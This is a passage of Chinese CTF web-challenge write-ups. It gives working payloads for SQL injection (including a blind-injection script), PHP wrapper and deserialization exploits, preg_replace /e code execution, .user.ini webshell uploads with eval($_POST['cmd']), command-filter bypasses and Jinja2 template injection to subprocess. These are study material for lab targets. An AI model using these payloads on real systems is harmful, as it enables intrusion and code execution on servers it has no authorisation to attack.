这里没有过滤`updatexml | extractvalue`这两个函数，理论是可以使用报错注入的，但是最后到数据的查询，依然得使用`select`关键字，所以就只能使用`handler`了

另外这里没有过滤`show`关键字，所以是可以使用堆叠注入的

#### 查看闭合方式

明显使用的是单引号闭合方法



#### 爆表

```
http://fe8a3b25-b05d-4623-a588-f61d6767ccaa.node4.buuoj.cn:81/?inject=2';show tables --+
```



#### `handler`方法查询Flag

```
http://fe8a3b25-b05d-4623-a588-f61d6767ccaa.node4.buuoj.cn:81/?inject=2';handler FlagHere open;handler FlagHere read first;--+
```



## [CISCN2019 华北赛区 Day2 Web1]Hack World

### 前置知识

#### 布尔盲注

这里先复习以下布尔盲注

先查询目标第一个字母的ASCII值

```sql
# 使用 limit 过滤出第一个用户名，使用 substr 函数切割出用户名的第一个字母
mysql> select ascii(substr((select username from users limit 0,1),1,1));
+-----------------------------------------------------------+
| ascii(substr((select username from users limit 0,1),1,1)) |
+-----------------------------------------------------------+
|                                                        68 |
+-----------------------------------------------------------+
1 row in set (0.00 sec)
```

嵌套select语句做布尔判断

```bash
mysql> select (select ascii(substr((select username from users limit 0,1),1,1))) > 65;
+-------------------------------------------------------------------------+
| (select ascii(substr((select username from users limit 0,1),1,1))) > 65 |
+-------------------------------------------------------------------------+
|                                                                       1 |
+-------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

#### 异或运算

==相同得0，不同得1==

```sql
mysql> select 0^0;
+-----+
| 0^0 |
+-----+
|   0 |
+-----+
1 row in set (0.00 sec)

mysql> select 0^1;
+-----+
| 0^1 |
+-----+
|   1 |
+-----+
1 row in set (0.00 sec)
```

以此配合上布尔盲注，当查询到的结果为True时，返回`1`，`0^1`依然为1

```sql
mysql> select 0^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65);
+------------------------------------------------------------------------------------+
| 0^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65) |
+------------------------------------------------------------------------------------+
|                                                                                  1 |
+------------------------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select 1^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65);
+------------------------------------------------------------------------------------+
| 1^(select (select ascii(substr((select username from users limit 0,1),1,1))) > 65) |
+------------------------------------------------------------------------------------+
|                                                                                  0 |
+------------------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

#### 解题流程

首先这里做了基本尝试，发现做了非常严格的过滤，就连空格也被过滤了

所以这里需要使用**异或运算**来做判断

成功回显，但是这里并没有返回任何有用信息，所以可看判断出当有信息返回时，这里就会出`Hello, glzjin wants a girlfriend.`这句话，



尝试使用布尔盲注，由于这里对空格做了严格过滤，所以还需要使用括号来绕过

```
0^(select(select(ascii(substring((select(flag)from(flag)),1,1))))>100)
```



最后就是写脚本来做盲注了，源码

```py
import requests
import urllib3
import re

urllib3.disable_warnings()
flag = ""
for i in range(60):
    for asc in range(0, 129):
        payload = f"0^(select(select(ascii(substring((select(flag)from(flag)),{i},1))))={asc})"
        post_data = {
            'id': payload
        }

        req = requests.post("http://bb016411-f720-4158-ab9a-e6884d8f790b.node4.buuoj.cn:81/index.php",
                            data=post_data, verify=False).text
        if re.search("Hello, glzjin wants a girlfriend", req):
            flag += chr(asc)
            print(flag)
            break
```



## [picoCTF] Scavenger Hunt

### 前置知识

#### `.htaccess`文件

[`.htaccess`文件是Apache HTTP服务器的一个配置文件，它允许用户在不修改主配置文件的情况下对Web服务器的目录进行配置](https://httpd.apache.org/docs/current/howto/htaccess.html)[1](https://httpd.apache.org/docs/current/howto/htaccess.html)。虽然`.htaccess`文件主要用于Apache服务器，但也有其他Web服务器（如NGINX和Microsoft IIS）提供了对类似功能的支持，

#### `.DS_Store`

[`.DS_Store`是一种由macOS系统自动创建的隐藏文件，它存储了文件夹的自定义属性，例如文件夹视图选项、图标位置和其他视觉信息](https://en.wikipedia.org/wiki/.DS_Store)[1](https://en.wikipedia.org/wiki/.DS_Store)。它的名称是Desktop Services Store的缩写，反映了它的用途[1](https://en.wikipedia.org/wiki/.DS_Store)[。这个文件存在于每一个用「访达」打开过的文件夹下面](https://www.zhihu.com/question/20345704)[2](https://www.zhihu.com/question/20345704)

### 解题流程

根据首页的提示，可以看到线索


直接查看源码可以看到part1

```
<!-- Here's the first part of the flag: picoCTF{t -->
```

查看css代码可以看到part2

```
/* CSS makes the page look nice, and yes, it also has part of the flag. Here's part 2: h4ts_4_l0 */
```

查看JS代码可以看到下一个提示

```
/* How can I keep Google from indexing my website? */
```

根据提示可以快速想到robots协议，访问robots.txt

```
# Part 3: t_0f_pl4c
# I think this is an apache server... can you Access the next flag?
```

Apache网站大概率会存在的敏感文件是`.htaccess`

```
# Part 4: 3s_2_lO0k
# I love making websites on my Mac, I can Store a lot of information there.
```

阅读前置知识2可以知道要访问文件`.DS_Store`

```
Congrats! You completed the scavenger hunt. Part 5: _f7ce8828}
```

## [ZJCTF 2019]NiZhuanSiWei

### 前置知识

这题主要考的是PHP反序列化和PHP伪协议



### 解题流程

#### 源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(welcome to the zjctf($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

#### 绕过点一

首先需要使用`PHP伪协议`来控制输入流，使得`$text`读取到的内容是`welcome to the zjctf`

`file_get_contents()`是触发`PHP伪协议`的函数之一，可以搭配`data://`来输入`welcome to the zjctf`

```
payload：?text=data://text/plain,welcome to the zjctf
```



#### 绕过点二

`$password = unserialize($password);` 存在反序列化的可能性

` include($file);  //useless.php`这里也暗示了要包含`useless.php`

首先使用`php://filter`来读取`useless.php`源码，`include()`函数来触发`PHP伪协议`

```
payload：?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```


这里得到了源码，使用的是`base64`来编码，使用PHP做解码

```php
<?php

$str = "PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=";

echo base64_decode($str);

# 输出
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

#### 绕过点三

这里的`PHP反序列`非常简单，只要保证`$file`指向的是`flag文件`就行，源码中的`echo $password;`会自动触发` __tostring()`魔术方法

```php
<?php

class Flag
{  //flag.php
    public $file = 'flag.php';

    public function __tostring()
    {
        if (isset($this->file)) {
            echo file_get_contents($this->file);
            echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}


$f = new Flag();
echo serialize($f);

# 输出
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

#### Flag获取

最后将所有得到的结果汇总得到最后的`payload`

注意：此时`$file`需要包含的文件是`useless.php`

```
payload：?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```



```
flag{c087096a-0274-464c-a6c9-93c4d0596c2c}
```

## [BJDCTF2020]ZJCTF，不过如此

### 前置知识

#### PHP正则表达式`e`模式命令执行漏洞

##### 示例代码

```php
<?php
function complexStrtolower($regex, $value){
    return preg_replace('/('.$regex.')/ei', 'strtolower("\\1")', $value);
}

# 遍历 $_GET 数组
foreach ($_GET as $regex => $value){
    echo complexStrtolower($regex, $value)."\n";
}
```

##### `preg_replace()`函数

```bash
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed

# 翻译成人话就是
preg_replace (正则表达式 , 替换内容 , 数据源 )
```

##### 漏洞原理

`PHP`正则`e模式`，会将匹配到的结果替换为指定内容，并将替换后的结果当代码执行

即，触发代码执行漏洞条件：

1. 数据成功被正则表达式匹配
2. 替换后的内容是正确的PHP代码

##### 爬坑一

上面的命令执行，相当于 **eval('strtolower("\\1");')** 结果，当中的 **\\1** 实际上就是 **\1** ，而 **\1** 在正则表达式中有自己的含义。我们来看看 [**W3Cschool**](https://www.w3cschool.cn/zhengzebiaodashi/regexp-syntax.html) 中对其的描述：

> **反向引用**
>
> 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

这里翻译成人话就是：`$value`如果成功被正则表达式匹配到，就会放入**临时缓冲区**中，然后后续使用`\1`将`$value`取出，由于是放一个取一个，所以永远取第一个就行

```
原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
最后得到的结果：strtolower("{${phpinfo()}}");
```

以此就能达到漏洞执行的目的

##### 爬坑二

`.*`中的`.`是非法字符不能直接传到`$_GET`数组中，否则会被转义为`_*`，从而达到触发漏洞的==第一个条件：数据成功被正则表达式匹配==

所以这里可以使用`\S*`来绕过 **\S\*=${phpinfo()}**

##### 最后触发漏洞

```php
<?php
$_GET['\S*'] = "{${phpinfo()}}";
function complexStrtolower($regex, $value){
    return preg_replace('/('.$regex.')/ei', 'strtolower("\\1")', $value);
}

foreach ($_GET as $regex => $value){
    echo complexStrtolower($regex, $value)."\n";
}
# 成功执行phpinfo()
```

#### PHP复杂表达式

这个是PHP语法之一，以下写法都可成功执行

```php
<?php
echo "{${phpinfo()}}";
echo ${phpinfo()};
echo strtolower("{${phpinfo()}}");
```

### 解题流程

#### 源码

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

#### 绕过点一

首先很明显看到可以使用`file_get_contents()`函数来触发PHP伪协议，使用`data://text/plain,I have a dream`，以让PHP读到所需的值

```
payload：?text=data://text/plain,I have a dream
```



#### 绕过点二

`include($file);  //next.php`暗示了需要包含`next.php`，但是在这之前需要先看一`next.php`的源码

这里也可以使用`include()`函数来触发`php伪协议`来读取

```
payload：?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```



使用`base64`解码得到源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
        @eval($_GET['cmd']);
}
```

最后使用正则表达式`e`漏洞来执行函数`getFlag`，即可得到答案

到这里就可以根据前面的前置知识得出最后的payload了，但是值得一提的是：代码中使用`foreach`来遍历`$_GET`数组，所以最后可以传入`$_GET['\S*'] = "{${phpinfo()}}"`，至于`$id`可传可不传

```
payload：?text=data://text/plain,I have a dream&file=next.php&\S*={${getFlag()}}&cmd=system('cat /flag');
```

```
flag{d31dcaa7-5505-4bb2-ab93-feb4c5896c73}
```

## [网鼎杯 2018]Fakebook

这题考点有：php反序列化，SQL注入，CSRF

首先先注册一个账户，博客要求是一个URL



点击`admin`链接查看源码，可以看到源码这里将百度的`HTML`源码`base64`编码追加到末尾


### SQL注入漏洞

且发现一个SQL漏洞注入点：`no`，输入`no=2-1`成功回显`no=1`的内容，判断出是数字型

```
payload：?no=2-1
```



通过`order by`判断出查询的列数是：4

```
payload：?no=1 order by 4
```



使用`union`联合注入可以看到回显位，且这里：`union`后面不能跟`select`，可以使用`/**/`绕过

```
payload：?no=-1 union/**/select 1,2,3,4
```



后面就是常规注入了，这里直接给出数据库内容：

```
数据库：fakebook
数据表：users
字段：no、username、passwd、data
no：1
username：admin
passwd：c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec
data：O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:20:"http://www.baidu.com";}
```

#### CSRF漏洞

查看`roots.txt`，可以看到一份`PHP源码`



```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        # PHP 爬虫构造初始化
        $ch = curl_init();

        # 设置爬取目标
        curl_setopt($ch, CURLOPT_URL, $url);
        # CURLOPT_RETURNTRANSFER 表示返回HTTP状态码不返回HTTP内容
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        # 执行爬虫
        $output = curl_exec($ch);
        # 获取HTTP状态码
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if ($httpCode == 404) {
            return 404;
        }
        # 关闭资源
        curl_close($ch);

        return $output;
    }

    public function getBlogContents()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

### 漏洞分析汇总

==这里由于在做SQL注入，导致后台无法得到应有的数据而报错==

分析网站的报错信息，尝试做反序列化，但是没有获取到数据


尝试调用函数`getBlogContents()`，这个函数的源码在`user.php`已给出



这里将信息汇总起来总结一下：

+ 后台通过查询`no`值获取数据库的内容，大概的SQL语句是：`select * from users where id = 1`

+ 注意观察到`data`字段是一串序列化字符串，那么可以猜测出后台是通过获取`data`的信息，再做反序列化得到用户的信息，也就是这里的内容

  

+ 反序列字符串中的`blog`内容是我们填写的网站，并且调用的回调函数是：`getBlogContents()`，这里允许输入一个`URL`，且没做任何的过滤，存在`CSRF`漏洞，另外，PHP的`curl`是可以访问`PHP伪协议`获取到的内容的，但是只能获取到`file://`而不能得到`filter://`的，这里可以看一下试验

  

  试验源码：

  ```php
  <?php
  $url = $_GET['url'];
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, $url);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  $output = curl_exec($ch);
  var_dump($output);
  curl_close($ch);
  ```


​     `filter://`读不到，返回`False`

​    

​    `file://`成功读取内容并返回信息

​    


### `payload`构造

首先尝试将反序列化字符串通过`union`注入提交到`PHP`后台，发现依然可以成功解析，记得给反序列字符串加上单引号

```
payload：?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:20:"http://www.baidu.com";}'
```



对反序列化的内容进行修改，依然可以成功识别



使用`PHP伪协议`读取FLAG

```
payload：?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:15;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```



查看源码



将数据使用`base64`解码



```
flag：flag{7e8d8715-6120-4ec3-9f91-e85469922fc7}
```

## [攻防世界] easyupload

一开始上传了各种文件上去都不行，哪怕将文件的后缀名于`IMIE`类型都改为图片类型都不行，以此猜测到还对文件头进行过滤

需要绕过的点如下

- 检查文件内容是否有php字符串
- 检查后缀中是否有htaccess或ph
- 检查文件头部信息
- 文件MIME类型

先上传`user.ini`文件并修改文件类型，该文件的详细描述在 ---> 橙子科技

由于对文件头做了过滤，所以这里必须附带上`GIF89a`

作用：在加载同一目录下的PHP文件时，会先将`.user.ini`文件的内容加载到PHP配置文件`php.ini`，并执行`php.ini`文件的内容，`auto_prepend_file`加载到文件头将文件`GIF89a.jpg`当作PHP文件来执行

```
# .user.ini
GIF89a
auto_prepend_file=GIF89a.jpg
```




上传木马：注意修改后缀名和文件类型

```
GIF89a
<?=eval($_POST['cmd']);?>
```




要激活`.user.ini`需要先放同一目录（uploads）的PHP文件

蚁剑连接



## [BJDCTF2020]The mystery of ip

这题考察的是PHP的Smart模板注入

进去首先先查看提示：Hint.php


这里可以看到提示我们可以使用HTTP字段：`X-Forwarded-For`，使用Hack bar修改头部



这里可以怀疑后台对于：`X-Forwarded-For`传入的值没有任何的安全过滤，那么可以尝试一些payload来触发漏洞






根据报错提示，可以确定这里使用的是Smarty模板



成功得到Flag

## [SUCTF 2019]CheckIn

进入网站，一个文件上传口


使用插件查看，发现用的是Nginx服务器，那么或许可以上传`.user.ini`配置文件


尝试上传最普通的一句话木马



发现对`<?`进行了严格过滤，所以这里只能用`script`标签的一句话木马：`<script language="php">eval($_POST['cmd']);</script>`

这里显示，要求上传一张图片，使用BP来修改文件类型绕过，并添加GIF89a文件头



上传成功：

```
GIF89a
<script language="php">eval($_POST['cmd']);</script>
```



到这一步，虽然已经成功上传了木马上去，但是由于后缀不是PHP文件，所以无法执行。那么这里还需要上传一个`.user.ini`文件上去（依旧注意要修改文件类型和添加GIF89a头）



最后使用蚁剑连接即可

**顺序应该是：先上传`.user.ini`再上传木马文件**

## [BSidesCF 2020]Had a bad day

进来读源码，发现使用Form表单的GET提交参数，来确定前端要返回的图片



加一个单引号试一下，可以看到`include`函数报错，那么就可以确定是文件包含了



尝试使用`php://filter`包含`index.php`，这里注意报错，**后台会在上传的字符串中自动追加PHP，所以直接传入index即可**

```
php://filter/read=convert.base64-encode/resource=index
```



得到源码如下：

```php
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
      <div class="page-ribbon"></div>
      <main class="page-main mdl-layout__content">
        <div class="page-container mdl-grid">
          <div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"></div>
          <div class="page-content mdl-color--white mdl-shadow--4dp content mdl-color-text--grey-800 mdl-cell mdl-cell--8-col">
            <div class="page-crumbs mdl-color-text--grey-500">
            </div>
            <h3>Cheer up!</h3>
              <p>
                Did you have a bad day? Did things not go your way today? Are you feeling down? Pick an option and let the adorable images cheer you up!
              </p>
              <div class="page-include">
              <?php
				$file = $_GET['category'];
				# 这里要求传入的字符串中必须带有：woofers、meowers且index不能位于首位
				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
			</div>
          <form action="index.php" method="get" id="choice">
              <center><button onclick="document.getElementById('choice').submit();" name="category" value="woofers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Woofers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button>
              <button onclick="document.getElementById('choice').submit();" name="category" value="meowers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Meowers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button></center>
          </form>

          </div>
        </div>
      </main>
    </div>
    <script src="js/material.min.js"></script>
  </body>
</html>
```

最后payload

```
php://filter/read=convert.base64-encode/resource=woofers/../flag
```

这里解释一下`woofers/../flag`，将`woofers`当作一个文件夹，然后进去再退出来找`flag.php` == 找当前文件夹下的flag.php

## 攻防世界 unseping

考点：PHP反序列化

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    # 要执行的系统命令
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        # 要求 method="ping"
        if (in_array($this->method, array("ping"))) {
            # 两个参数都必须为数组
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

### 前置知识

#### `in_array`

in_array — 检查数组中是否存在某个值 **严格匹配**

##### 说明

```
in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] ) : bool
```

大海捞针，在大海（`haystack`）中搜索针（ `needle`），如果没有设置 `strict` 则使用宽松的比较。

##### 参数


- `needle`

  待搜索的值。**Note**:如果 `needle` 是字符串，则比较是区分大小写的。

- `haystack`

  待搜索的数组。

- `strict`

  如果第三个参数 `strict` 的值为 **`TRUE`** 则 **in_array()** 函数还会检查 `needle` 的[类型](language.types.html)是否和 `haystack` 中的相同。

##### 返回值

如果找到 `needle` 则返回 **`TRUE`**，否则返回 **`FALSE`**。

##### 示例

```php
<?php
var_dump(in_array("ping", array("ping")));
# 输出：TRUE

<?php
var_dump(in_array("ping1", array("ping")));
# 输出：FALSE
```

#### `call_user_func_array`

call_user_func_array — 调用回调函数，并把一个数组参数作为回调函数的参数

##### 说明

```
call_user_func_array ( [callable](language.types.callable.html) `$callback` , array `$param_arr` )
```

把第一个参数作为回调函数（`callback`）调用，把参数数组作（`param_arr`）为回调函数的的参数传入。

##### 参数

- `callback`

  被调用的回调函数。

- `param_arr`

  要被传入回调函数的数组，这个数组得是索引数组。

###### 返回值

返回回调函数的结果。如果出错的话就返回**`FALSE`**

### Linux部分

Linux 命令中插入引号依然可以继续执行想要执行的命令

```
┌──(root㉿pinginglab)-[/home/pinginglab/php-exec]
└─# c''at f''lag.txt
flag is this
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/php-exec]
└─# c""at f""lag.txt
flag is this
```

Linux 中可以使用`printf`配合编码打印出想要打印的字符串

```
\NNN 八进制数 NNN 所代表的 ASCII 码字符。
\xHH 十六进制 HH 对应的8位字符。HH 可以是一到两位。
\uHHHH 十六进制 HHHH 对应的 Unicode 字符。HHHH 一到四位。
\UHHHHHHHH十六进制 HHHHHHHH 对应的 Unicode 字符。HHHHHHHH 一到八位
```

```
┌──(root㉿pinginglab)-[/home/pinginglab/php-exec]
└─# printf "\57"
/ 
```

### 解题流程

使用双引号绕过WAF，`$(printf${IFS}"\57") = /`

**最后脚本**

```php
<?php

class ease
{

    public $method = "ping";
    public $args = array('c""at${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp');

    function __destruct()
    {
        # $method 必须是字符串 ping
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    }

    function ping($ip)
    {
        exec($ip, $result);
        var_dump($result);
    }


}
$e = new ease();
$e = serialize($e);
echo base64_encode($e);
```

## 攻防世界 Web_python_template_injection

考点是Python jinjia2 的模板注入，一开始找了一下没发现注入点，偷瞄了一下才知道原来是直接在URL后面加

先拿到基类`object`，在查找下面的子类

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

直接使用`Ctrl+f`查找，寻找可利用的模块，最后发现一个可利用的模块：`<class 'subprocess.Popen'>`，这里提供Python代码来寻找

```py
import requests

base_url = "http://61.147.171.105:57186/"
for i in range(500):
    payload = "{{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}"
    res = requests.get(base_url + payload).text
    # print(res)
    if "subprocess" in res:
        print("发现索引：", i, "payload：", payload)

```

最后payload

```
{{''.__class__.__mro__[2].__subclasses__()[237]('cat fl4g',shell=True,stdout=-1).communicate()[0].strip()}}
```


## 攻防世界 web2

### 1. 前置知识

ROT13编码：ROT13编码其实就是凯撒密码，偏移量为13；php函数为：`str_rot13()`，编码和解码都是用这个函数！

### 2. 题目源码

```bash
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
```

### 3. 解题分析

加密过程：

1. 字符串翻转
2. 从字符串中将字符串从左到右一个个取出
3. 将字符转为ASCII码后加1
4. 将ASCII码转为字符
5. 拼接字符串
5. base64 编码字符串
6. 将 base64 编码翻转
7. 将 base64 编码做 ROT13 编码
7. 得到密文

解密脚本：

```php
<?php
$miwen = "a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

# 密文 ROT13 编码
$a = str_rot13($miwen);
var_dump($a);
# 密文翻转
$b = strrev($a);
var_dump($b);
# 密文解码
$c = base64_decode($b);
var_dump($c);

# 将得到的结果的每个字符逐一取出，转为ASCII码后减1再拼接，再转回字符
function decode($str)
{
    for ($i = 0; $i < strlen($str); $i++) {
        $simple = substr($str, $i, 1);
        $simple = ord($simple) - 1;
        $simple = chr($simple);
        $res = $res.$simple;
    }
    return $res;
}

$d = decode($c);
# 最后再做一次翻转
var_dump(strrev($d));		# 输出：flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}
```

## 攻防世界 catcat-new

> 这题主要考察的是文件包含漏洞和内存读取，有看不懂的就去看葵花宝典“Linux 虚拟文件系统”

### 1. 任意文件读取

进去随便点一下可以看到有一个`$_GET`变量`file`，输入错误文件名可以看到它的报错信息和包含路径



使用相对路径做包含访问`/etc/passwd`文件成功



然后就没有头绪了，在这里卡了好久！

尝试包含`/proc`文件，把能看的都看一下，最后得到如下信息：

```
file=../../../../../proc/self/cmdline：	
python app.py			

file=../../../../../proc/self/environ：	得到下面信息
HOSTNAME=b90b9e98836f 
PYTHON_PIP_VERSION=21.2.4 
SHLVL=1 
HOME=/root 
OLDPWD=/ GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D 
PYTHON_GET_PIP_URL=https://github.com/pypa/getpip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py 
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin 
LANG=C.UTF-8 
PYTHON_VERSION=3.7.12 
PYTHON_SETUPTOOLS_VERSION=57.5.0 
PWD=/app 
PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309
```

**信息汇总：**

1. 当前文件名：`app.py`
2. 当前工作路径：`/app`

知道了路径和文件名，就可以直接包含出源文件了



由于这里使用的时二进制传输，在python中使用一下方式做格式转换

```python
src = b'import os \nimport uuid...'
print(sec.decode())
```

就可以得到源码

### 2. 代码审计

通过上面的方式分别拿到`app.py`和`cat.py`

**app.py**

+ python脚本先读取了flag，然后再删除了flag；所以flag保存在了**内存**里面
+ 在`/info`位置可以做文件包含包含内存文件来读取：`flag`和`SECRET_KEY`
+ 在拿到了`SECRET_KEY`之后可以做 Session 伪造，让系统返回Flag

```py
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
    __name__,
    static_url_path='/',
    static_folder='static'
)
# 设置 SECRET_KEY
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
# 读取 /flag 文件到内存，然后删除该文件
if os.path.isfile("/flag"):
    flag = cat("/flag")
    os.remove("/flag")


@app.route('/', methods=['GET'])
def index():
    detailtxt = os.listdir('./details/')
    cats_list = []
    for i in detailtxt:
        cats_list.append(i[:i.index('.')])

    return render_template("index.html", cats_list=cats_list, cat=cat)

# 文件包含代码位置：该位置接受两个参数：start，end；默认都为0
@app.route('/info', methods=["GET", 'POST'])
def info():
    filename = "./details/" + request.args.get('file', "")
    start = request.args.get('start', "0")
    end = request.args.get('end', "0")
    name = request.args.get('file', "")[:request.args.get('file', "").index('.')]

    return render_template("detail.html", catname=name, info=cat(filename, start, end))


# 如果身份是admin，则返回Flag
@app.route('/admin', methods=["GET"])
def admin_can_list_root():
    if session.get('admin') == 1:
        return flag
    else:
        session['admin'] = 0
    return "NoNoNo"


if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5637)

```

**cat.py**

